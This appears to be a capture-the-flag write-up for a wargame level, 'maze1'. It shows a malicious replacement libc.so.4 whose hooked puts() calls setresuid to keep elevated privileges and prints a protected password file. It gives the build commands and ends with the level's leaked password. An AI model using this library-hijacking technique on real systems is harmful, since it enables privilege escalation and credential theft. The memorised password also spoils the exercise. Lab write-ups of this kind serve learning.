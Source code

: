```assembly
  0x0804849b <+0>:	push   %ebp
   0x0804849c <+1>:	mov    %esp,%ebp
   0x0804849e <+3>:	push   $0x8048540
   0x080484a3 <+8>:	call   0x8048380 <puts@plt>
   0x080484a8 <+13>:	add    $0x4,%esp
   0x080484ab <+16>:	mov    $0x0,%eax
   0x080484b0 <+21>:	leave  
   0x080484b1 <+22>:	ret 
```

**ERROR while running executable**

./maze1: error while loading shared libraries: ./libc.so.4: cannot open shared object file: No such file or directory

Step1:

​		ldd prints the shared objects(shared libraries) required by each program or shared object

​			**ldd ./maze1** 

​			**output**: shows that ./libc.so.4 is not present.

​			![Screen Shot 2019-12-30 at 9.03.57 PM](/Users/tomal/Desktop/Screen Shot 2019-12-30 at 9.03.57 PM.png)

**OFF topic but good explanation**

When you execute a program, the dynamic linker looks at this list of libraries. It locates the libraries on the filesystem based on configuration files and environment variables, loads the libraries into memory, links the pieces together to make a working whole, and finally executes the program.



**Solution:**

​	From the disassembly we can see that it only calls the puts function. As the libc.so.4 is missing in this case, the solution concept is to provide are own shared object file and overwirte the puts system call to get the content of **/etc/maze_pass/maze2**. Another additional task that we have to do is to set the effective user id first. Maze0 does that. Therefore, we will first write a c program to over wirte the puts system call and build a shared object file names **libc.so.4** then run the maze1 with that.

**step 1 :** create a seprate directory such as **/tmp/tomal**

hook.c

```c
int puts (const char *s)
{
        int ret = setresuid(geteuid(),geteuid(),geteuid());
        printf("Returned id %d\n",ret);
        FILE *file = fopen("/etc/maze_pass/maze2", "r");
        if (file == NULL) {
                printf("file opening failed");
        }
        char c;
        c = fgetc(file);
        while (c !=EOF)
        {
                printf("%c",c);
                c = fgetc (file);
        }
        fclose(file);
        return 0;
}
```

**step 2** compile the c file to get the object file. 

```
 gcc -m32 -fPIC -c hook.c
```

this creates the hook.o file.

**step 3:**  create the shared object file from hook.o

```
ld -shared -m elf_i386 -o libc.so.4 hook.o -ldl
```

**step 4:** run the executable file from /tmp/tomal

```
/maze/maze1
```

**password:** fooghihahr

